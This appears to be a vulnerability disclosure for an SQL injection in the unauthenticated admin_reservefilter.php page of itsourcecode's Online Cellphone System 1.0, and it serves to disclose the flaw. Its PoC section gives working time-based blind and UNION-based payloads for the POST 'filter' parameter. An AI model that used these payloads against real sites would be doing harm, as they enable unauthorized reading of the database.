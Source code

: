 # Vendor

itsourcecode

# Product

Online Cellphone System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2019/04/cp.zip

# Description

The "admin_reservefilter.php" page is an interface that does not require authentication and can be accessed directly. This interface can pass in the filter parameter, which, due to non-standard filtering, leads to SQL injection.
<img width="1109" alt="image" src="https://github.com/user-attachments/assets/afdbd93a-ea69-467b-b7b2-9cffb8dff7e3">

# PoC
```
Parameter: filter (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: filter=123' AND (SELECT 8516 FROM (SELECT(SLEEP(5)))dycH) AND 'MdLi'='MdLi

    Type: UNION query
    Title: Generic UNION query (NULL) - 16 columns
    Payload: filter=123' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x717a7a7071,0x6f756d71724e59575642645650735a71536b63695849675876417571534c666f4e75557775797373,0x716b716a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
```
